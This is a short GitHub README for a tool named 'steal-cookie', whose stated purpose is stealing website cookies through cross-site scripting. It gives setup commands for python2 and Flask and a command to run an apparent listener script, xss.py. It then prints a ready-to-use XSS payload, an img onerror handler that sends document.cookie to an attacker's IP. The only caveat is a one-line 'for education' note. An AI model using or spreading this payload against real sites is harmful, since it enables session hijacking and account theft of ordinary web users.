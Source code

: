 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://YOUR_IP/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook  : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>
- Hackerone : <a href="http://hackerone.com/knassar702">Khaled Nassar</a>

